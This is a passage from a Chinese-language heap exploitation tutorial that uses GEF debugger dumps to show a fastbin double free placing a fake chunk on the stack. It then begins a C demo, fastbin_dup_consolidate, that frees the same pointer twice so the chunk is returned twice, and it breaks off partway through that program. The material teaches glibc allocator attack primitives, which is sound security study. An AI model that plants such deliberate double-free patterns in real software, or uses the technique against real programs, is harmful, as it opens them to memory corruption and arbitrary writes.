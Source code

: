 ```text
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602030, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x7fffffffdc40, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602020, size=0x0, flags=) [incorrect fastbin_index]
```

可以看到，伪造的 chunk 已经由指针链接到 fastbins 上了。之后 malloc 两次，即可将伪造的 chunk 移动到链表头部：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021
0x602010:   0x4646464646464646  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021
0x602030:   0x4545454545454545  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000021
0x602050:   0x4343434343434343  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000020fa1
0x602070:   0x0000000000000000
gef➤  heap bins fast
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x7fffffffdc40, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602020, size=0x0, flags=) [incorrect fastbin_index]
```

再次 malloc，即可在 fake chunk 处分配内存：

```text
gef➤  x/5gx 0x7fffffffdc38-0x8
0x7fffffffdc30: 0x0000000000000000  0x0000000000000021 <-- fake chunk
0x7fffffffdc40: 0x4747474747474747  0x0000000000602000
0x7fffffffdc50: 0x0000000000602030
```

所以对于 fastbins，可以通过 double-free 覆盖 fastbins 的结构，来获得一个指向任意地址的指针。

### fastbin_dup_consolidate

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>

int main() {
    void *p1 = malloc(0x10);
    void *p2 = malloc(0x10);
    strcpy(p1, "AAAAAAAA");
    strcpy(p2, "BBBBBBBB");
    fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);

    fprintf(stderr, "Now free p1!\n");
    free(p1);

    void *p3 = malloc(0x400);
    fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
    fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");

    free(p1);
    fprintf(stderr, "Trigger the double free vulnerability!\n");
    fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");

    void *p4 = malloc(0x10);
    strcpy(p4, "CCCCCCC");
    void *p5 = malloc(0x10);
    strcpy(p5, "DDDDDDDD");
    fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", p4, p5);
```